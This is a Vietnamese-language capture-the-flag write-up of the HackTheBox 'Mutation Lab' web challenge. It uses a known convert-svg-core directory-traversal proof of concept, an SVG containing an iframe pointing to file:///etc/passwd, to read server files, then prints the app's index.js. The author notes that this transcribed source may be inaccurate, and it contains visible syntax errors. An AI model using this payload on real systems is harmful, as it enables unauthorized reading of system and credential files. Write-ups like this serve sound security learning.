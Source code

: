 ```yaml
---
title: "HackTheBox - Mutation Lab"
author: "mtiennnnn"
tags: web js cookie convert-svg-core
---
```


# Foreword
Đây là một challenge trong mục web của Hack The Box, challenge này từ sự kiện hackthebox Cyber Apocalypse CTF 2022 mà mình đã không tham gia. Nay vào làm thì thấy nó released trên trang chủ luôn nên mình làm cho vui.

# Information Gathering
Mới vào thì web sẽ hiện cho ta một form đăng kí, đăng nhập như sau:

![image](https://user-images.githubusercontent.com/75429369/171791521-df1d7302-4033-4fe8-8c3d-a32eaca40643.png)

Không có gì đặc biệt ở đây cả, mình sẽ đăng nhập vào để xem bên trong có gì:

![image](https://user-images.githubusercontent.com/75429369/171791819-ba3f76ab-8782-47f2-a85d-6a185f307a11.png)

Giao diện trong khá ảo ma nhỉ, ta có thể rê chuột vào 2 cái hình động kia sẽ có hoạt ảnh trông rất thú vị. 

Mình thử nút `Export` bên dưới xem có gì hay ho không.

![image](https://user-images.githubusercontent.com/75429369/171791974-45801b11-3881-4825-872b-9d92bd590f1d.png)

Web đã xuất ra một bức ảnh `.png` và có uri exports để lưu bức ảnh này, cùng xem thử trong quá trình export đã có request như thế nào.

```
POST /api/export HTTP/1.1
Host: 159.65.92.13:31751
Content-Length: 3230
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.92.13:31751
Referer: http://159.65.92.13:31751/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6Im10aWVubm5ubiJ9; session.sig=e1cXHePRSVWGyVYjR45Gt-8f1v8
Connection: close

{"svg":"<svg version=\"1.1\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" width=\"500\" height=\"400\" viewBox=\"0,0,500,400\"><g fill=\"#e74c3c\" fill-rule=\"nonzero\" stroke=\"none\" stroke-width=\"1\" stroke-linecap=\"butt\" stroke-linejoin=\"miter\" stroke-miterlimit=\"10\" stroke-dasharray=\"\" stroke-dashoffset=\"0\" font-family=\"none\" font-weight=\"none\" font-size=\"none\" text-anchor=\"none\" style=\"mix-blend-mode: normal\"><path d=\"M58.81077,277.73462c17.48102,-86.6988 17.48102,-86.6988 -10.01256,-99.30301c-27.49358,-12.60421 -27.49358,-12.60421 -27.49358,91.82529c0,104.4295 2.06633,104.4295 11.04573,99.30301c8.9794,-5.12649 8.9794,-5.12649 26.46042,-91.82529z\"/><path d=\"M118.05814,166.94914c39.30895,-15.47572 39.30895,-15.47572 45.94716,-79.17471c6.63822,-63.69898 6.63822,-63.69898 -66.80253,-63.69898c-73.44074,0 -73.44074,0 -73.44074,66.5705c0,66.5705 0,66.5705 27.49358,79.17471c27.49358,12.60421 27.49358,12.60421 66.80253,-2.87152z\"/><path d=\"M154.01163,374.48502c72.98165,0 72.98165,0 86.33736,-7.89551c13.35571,-7.89551 13.35571,-7.89551 14.16973,-80.04817c0.81402,-72.15266 0.81402,-72.15266 -46.72862,-99.40551c-47.54264,-27.25284 -47.54264,-27.25284 -86.85159,-11.77712c-39.30895,15.47572 -39.30895,15.47572 -56.78996,102.17452c-17.48102,86.6988 -17.48102,86.6988 -0.29979,91.82529c17.18123,5.12649 17.18123,5.12649 90.16288,5.12649z\"/><path d=\"M32.48736,374.63742c-8.9794,5.12649 -8.9794,5.12649 17.18123,5.12649c26.16062,0 26.16062,0 8.9794,-5.12649c-17.18123,-5.12649 -17.18123,-5.12649 -26.16062,0z\"/><path d=\"M325.04437,182.79643c63.50827,-23.72707 63.50827,-23.72707 54.66376,-90.95183c-8.84451,-67.22476 -8.84451,-67.22476 -104.41269,-67.22476c-95.56818,0 -95.56818,0 -102.2064,63.69898c-6.63822,63.69898 -6.63822,63.69898 40.90442,90.95183c47.54264,27.25284 47.54264,27.25284 111.05091,3.52578z\"/><path d=\"M316.43828,374.63919c22.48412,0 22.48412,0 81.75938,-28.93053c59.27526,-28.93053 59.27526,-28.93053 49.82962,-93.02798c-9.44564,-64.09745 -9.44564,-64.09745 -32.41834,-74.84471c-22.9727,-10.74726 -22.9727,-10.74726 -86.48097,12.9798c-63.50827,23.72707 -63.50827,23.72707 -64.32229,95.87973c-0.81402,72.15266 -0.81402,72.15266 14.16722,80.04817c14.98124,7.89551 14.98124,7.89551 37.46537,7.89551z\"/><path d=\"M245.73418,371.74088c-13.35571,7.89551 -13.35571,7.89551 14.98124,7.89551c28.33695,0 28.33695,0 13.35571,-7.89551c-14.98124,-7.89551 -14.98124,-7.89551 -28.33695,0z\"/><path d=\"M419.18975,169.25139c22.9727,10.74726 22.9727,10.74726 40.64657,5.24788c17.67387,-5.49939 17.67387,-5.49939 17.67387,-77.97202c0,-72.47264 0,-72.47264 -49.49108,-72.47264c-49.49108,0 -49.49108,0 -40.64657,67.22476c8.84451,67.22476 8.84451,67.22476 31.81721,77.97202z\"/><path d=\"M470.92452,323.90736c8.22823,8.08264 8.22823,8.08264 8.22823,-69.59684c0,-77.67947 0,-77.67947 -17.67387,-72.18009c-17.67387,5.49939 -17.67387,5.49939 -8.22823,69.59684c9.44564,64.09745 9.44564,64.09745 17.67387,72.18009z\"/><path d=\"M401.13118,349.63785c-59.27526,28.93053 -59.27526,28.93053 8.22823,28.93053c67.50349,0 67.50349,0 67.50349,-20.84789c0,-20.84789 0,-20.84789 -8.22823,-28.93053c-8.22823,-8.08264 -8.22823,-8.08264 -67.50349,20.84789z\"/></g></svg>"}
```

Hmm, như vậy có thể suy luận: lúc mình nhấn `export` thì web đã gửi một POST request với data là `svg`, sau đấy từ data svg ấy sẽ tạo ra ảnh `png` và lưu lại với tên file gì gì đấy `.png` trong mục `exports`. Từ đây sẽ có một hướng suy nghĩ là cái data svg này mình hoàn toàn có thể điều chỉnh được và file svg đổi thành png ấy hoàn toàn được lưu trên server nên ta có thể dùng nó dể gây lỗi.

Tới đây thì mình đi tìm xem cái `svg to png` (hay đại loại vậy) có bị lỗi bảo mật đã bị report trên mạng đã có hay chưa để giải bài này, vì ai chơi Hackthebox cũng biết rằng site này rất thích ra challenge có lỗi dựa trên việc sử dụng những module hay thư viện nào đấy phiên bản cũ. Mình tìm được khá nhiều nguồn và cuối cùng tìm được bài [này](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785). Đại khái là packet `convert-svg-core`có bug. Trang này viết như sau:

![image](https://user-images.githubusercontent.com/75429369/171794796-168e7d66-9f46-4914-ac6d-e5404b4bfbc3.png)

>"Affected versions of this package are vulnerable to Directory Traversal. Using a specially crafted SVG file, an attacker could read arbitrary files from the file system and then show the file content as a converted PNG file."

Dòng trên đọc khá là đúng hướng làm của bài này, có sẵn POC ở dưới nên mình sẽ dùng thử xem như thế nào.

```
<svg-dummy></svg-dummy> <iframe src=\"file:///etc/passwd\" width=\"100%\" height=\"1000px\"></iframe> <svg viewBox=\"0 0 240 80\" height=\"1000\" width=\"1000\" xmlns=\"http://www.w3.org/2000/svg\"> <text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text> </svg>

# nhớ thêm backslash để escape character
```

![image](https://user-images.githubusercontent.com/75429369/171794237-2d484fa3-0798-4afe-a965-5ef7f755e61a.png)

Access để xem có gì nào

![image](https://user-images.githubusercontent.com/75429369/171794287-5901d24a-237b-418b-a77d-3e671db2fd53.png)

Yay đọc được etc/passwd, vậy là POC hoạt động mượt :))

Tới đây mình mới ngồi mò làm cố gắng tìm đường rce các thứ nhưng tất cả đều vô dụng, mình quyết định hỏi hint của một anh bạn chơi chung và được 1 hint là đi đọc source code đi (cảm ơn bạn rất nhiều luôn). Thì ok, mình đọc source, những bài js của hackthebox (và nhiều giải khác) sẽ có workdir là `/app`, thì mình thử đọc `/app/index.js` thôi.

![image](https://user-images.githubusercontent.com/75429369/171825288-84d057cd-bf25-474d-95aa-f342540460cf.png)

index.js
```js
const express = require('express');
const session = require('cookie-session');
const app = express ;
const path = require('path');
const cookieParser = require('cookie-parser');
const nunjucks = require('nunjucks');
const routes = require('./routes');
const Database = require('./database');

const db = new Database('database.db');

app.use(express.json({limit: '2mb'})); 
app.use(cookieParser(); 

require('dotenv').config({ path: '/app/.env'}); 
app.use(Session({
	name: 'session',
	keys: [process.env.SESSION_SECRET_KEY] 
}))

nunjucks.configure('views', {
	autoescape: true,
	express: app 
});

app.set('views', './views'); 
app.use('/static', express.static(path.resolve('static')));
app.use('/exports', express.static(path.resolve('exports')));

app.use(routes (db));

app.all('*', (req, res) => { 
	return res.status (404).send({
		message: '404 page not found'
	});
});

(async () => {
	await db.connect();
	await db.migrate();
	app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```
_Note: source có thể không giống 100% tại mình copy bằng blackbox nên sợ không đúng, mong các bạn thông cảm_

